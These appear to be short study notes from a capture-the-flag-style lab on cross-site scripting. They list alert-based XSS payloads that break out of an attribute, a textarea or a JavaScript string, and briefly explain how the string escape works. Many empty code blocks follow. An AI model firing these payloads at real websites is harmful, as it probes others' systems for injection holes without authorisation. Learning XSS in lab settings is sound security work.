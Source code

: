 ```javascript
<script>alert('THM');</script> // Checking for XSS Vulnerability
```

```javascript
"><script>alert('THM');</script> // Closing a tag before injecting payload
```

```javascript
</textarea><script>alert('THM');</script> // Closing a tag before injecting payload
```
---
```javascript
';alert('THM');//

```

**NOTE**

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

---

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```
